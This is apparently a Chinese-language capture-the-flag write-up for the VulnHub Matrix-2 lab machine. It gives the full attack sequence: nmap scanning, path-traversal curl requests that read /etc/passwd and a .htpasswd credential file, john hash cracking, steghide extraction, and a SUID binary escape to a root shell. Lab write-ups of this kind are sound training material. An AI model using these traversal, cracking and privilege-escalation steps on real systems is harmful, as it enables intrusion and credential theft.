

# Matrix-2

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Matrix-2（IP：192.168.56.108）

下载：https://www.vulnhub.com/entry/matrix-2,279/

## Let's go

```
nmap -p- -A 192.168.56.108
```


> **我们进行查看发现1337端口需要认证，12320端口是命令终端，12321端口请求失败**


> **在12322端口查看上面得到的 robots.txt 文件，再次发现 file_view.php**


> **访问 file_view.php 发现是空白页，尝试发送GET请求失败，可能是请求方式不对**


```
curl -X POST -k https://192.168.56.108:12322/file_view.php -d "file=../../../../../etc/passwd"
```


```
curl -X POST -k https://192.168.56.108:12322/file_view.php -d "file=../../../../../etc/nginx/sites-available/default"
```


```
curl -X POST -k https://192.168.56.108:12322/file_view.php -d "file=../../../../../var/www/p4ss/.htpasswd"
```


> **得到一串密文，我们使用 john 进行破解**

```
echo 'Tr1n17y:$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0' > hash
john hash
```


>**发现可以使用此信息在1337端口登录**




> **查看图片并没有发现什么，我们把它下载下来进行审查**

```
steghide info h1dd3n.jpg	#密码是上面得到的n30
steghide extract -sf h1dd3n.jpg -p n30
cat n30.txt
```


> **使用得到的信息在12320端口登录成功**

```
username:n30
password:P4$$w0rd
```


```
find / -perm -u=s -type f 2>/dev/null
```


> **这个 morpheus 很可疑，查看bash历史记录发现使用方法**


```
morpheus 'BEGIN {system("/bin/sh")}'
cd /root
cat flag.txt
```

